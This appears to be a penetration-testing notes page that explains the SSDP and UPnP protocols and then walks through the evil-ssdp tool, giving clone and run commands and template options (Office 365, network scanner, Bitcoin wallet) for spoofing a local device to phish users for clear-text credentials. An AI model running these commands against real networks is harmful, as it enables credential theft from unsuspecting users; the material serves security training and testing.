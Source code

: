 # ⭕ SSDP Spoofing

## SSDP

SSDP or Simple Service Discovery Protocol is a network protocol designed for advertisement and discovery of network services. It can work without any DHCP or DNS Configuration. It was designed to be used in residential or small office environments. It uses UDP as the underlying transport protocol on port 1900. It uses the HTTP method NOTIFY to announce the establishment or withdrawal of services to a multicast group. It is the basis of the discovery protocol UPnP.

## UPnP

UPnP or Universal Plug and Play is a set of networking protocols that allows networked devices, such as personal computers, printers, Internet gateways, Wi-Fi access points, and mobile devices to discover each other’s availability on the network and establish network services for communications, data sharing, and entertainment. The UPnP architecture supports zero-configuration networking. A UPnP compatible device from any vendor can dynamically join a network, obtain an IP address, announce its name, advertise or convey its capabilities upon request, and learn about the presence and capabilities of other devices.

## Evil SSDP

{% embed url="https://github.com/initstring/evil-ssdp" %}

A tool for setting up a fake SSDP device and phishing the user for clear text credentials:

{% hint style="warning" %}
The attacker has to be in the same network as the target systems.
{% endhint %}

```
git clone https://github.com/initstring/evil-ssdp.git
cd evil-ssdp/ls
python3 evil-ssdp.py --help
```

to run the attack :&#x20;

```
python3 evil-ssdp.py -i eth0
```

{% hint style="info" %}
#### The default template is office 365 login console, you can change the template with -t \[template name]
{% endhint %}

&#x20;to setup a fake scanner for phishing, use the scanner template:

```
python3 evil-ssdp.py eth0 --template scanner
```

if the user clicks on the scanner icon in windows explorer > networks, the default browser will open up a web page and ask for credentials in order to connect to the device:

![](<../../.gitbook/assets/image (33).png>)

if the user enters the credentials, EvilSSDP will grab and show them

![](<../../.gitbook/assets/image (15).png>)

## Other templates

### Office 365

```
python3 evil_ssdp.py eth0 -t office365
```

![](../../.gitbook/assets/image.png)

### Bitcoin Wallet

```
python3 evil_ssdp.py eth0 -t bitcoin -b
```

![](<../../.gitbook/assets/image (7).png>)

check the repository for other available templates or use your own template and xml description file.
